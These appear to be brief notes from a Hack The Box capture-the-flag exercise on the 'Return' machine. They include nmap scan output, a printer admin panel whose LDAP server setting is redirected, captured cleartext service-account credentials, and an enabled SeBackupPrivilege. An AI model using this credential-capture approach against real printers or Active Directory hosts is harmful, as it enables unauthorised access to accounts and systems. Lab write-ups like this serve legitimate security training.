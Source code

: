 
return
10.129.176.2

---

ad server

80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE

389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)

Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

---

x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)

---

Server Address 	printer.return.local
Server Port 	389
Username 	svc-printer
Password 	`*******`

set password to password and clicked update

---

[LDAP] Cleartext Client   : 10.129.176.2
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!

---

..

---

Mandatory Label\High Mandatory Level       Label            S-1-16-12288

SeBackupPrivilege             Back up files and directories       Enabled



